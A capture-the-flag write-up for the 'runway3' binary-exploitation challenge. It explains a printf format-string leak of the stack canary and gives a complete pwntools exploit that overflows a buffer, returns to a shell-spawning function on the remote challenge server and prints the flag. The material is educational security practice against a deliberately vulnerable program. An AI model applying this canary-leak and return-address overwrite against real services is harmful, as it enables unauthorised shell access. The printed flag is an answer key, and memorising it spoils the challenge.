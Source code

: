 # runway3

This challenge provided the following `runway3.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");
    fflush(stdout);

    system("/bin/sh");
}

int echo(int amount) {
    char message[32];

    fgets(message, amount, stdin);

    printf(message);
    fflush(stdout);
}

int main() {
    printf("Is it just me, or is there an echo in here?\n");
    fflush(stdout);

    echo(31);
    echo(100);

    return 0;
}
```

If the makefile were the same as `runway1` and `runway2`, this would be very straightforward: we could
simply ignore the first call to `echo` and then overflow on the second one. Unfortunately, this is the
`Makefile`:

```makefile
all: runway3.c
        gcc runway3.c -o runway3 -no-pie
```

This means that we have a canary to worry about. Luckily, we can make use of the fact that our input is
output with the `printf` command to determine the canary.

Since our input is passed directly into `printf`, we can include format specifiers. The first goal is to
find the canary. To recognize the canary, the same output should change the ouput wildly. This takes some
playing around with the inputs, but to print something on the stack it should be at least the 7th input
since there are 6 input registers (this is a 64-bit binary). To print 8 bytes of the nth argument in c, you
can use `%n$lx`. For example, `%7$lx` will print 8 bytes in hex of the 7th argument.


After some time, I found that the canary was the 13th argument, as can be seen from this output:

```
# ./runway3
Is it just me, or is there an echo in here?
%13$lx
36b628fc38e53b00


# ./runway3
Is it just me, or is there an echo in here?
%13$lx
237cd9552505f200


# ./runway3
Is it just me, or is there an echo in here?
%13$lx
970cb7dbb0ed0700


# ./runway3
Is it just me, or is there an echo in here?
%13$lx
1da9d5099c136800
```

The next goal was to find the stack location of the return address, which I found to be the 15th argument.
(It generally should be 2 after the canary).

For this exploit, I happened to also need a `ret` gadget. (The location of any point in the executable where
`ret` is called). To do this, I just used `objdump -d runway3` then searched for `ret`.

Beyond that, my exploit was quite similar to `runway1`:

```python
import pwn

pwn.context.binary = elf = pwn.ELF("./runway3")

if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io",13403)
else:
    io = pwn.process("./runway3")

io.recvuntil(b'echo in here?\n')
io.sendline(b'%13$lx %15$lx') # canary position, return to

canary_ret = io.recvline().split()

canary = int(canary_ret[0], 16)
leaked_ret = int(canary_ret[1], 16)

ret_gadget = 0x40101a

canary_off = 40
payload = b'A' * canary_off + \
        canary.to_bytes(8, 'little') + \
        (0).to_bytes(8, 'little') + \
        ret_gadget.to_bytes(8, 'little') + \
        elf.symbols['win'].to_bytes(8, 'little')

io.sendline(payload)

io.interactive()
```

Which gives this:
```
# python3 exploit.py REMOTE SILENT
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYou win! Here is your shell:
$ ls
flag.txt
run
$ cat flag.txt
bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}
```

Giving the flag `bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}`
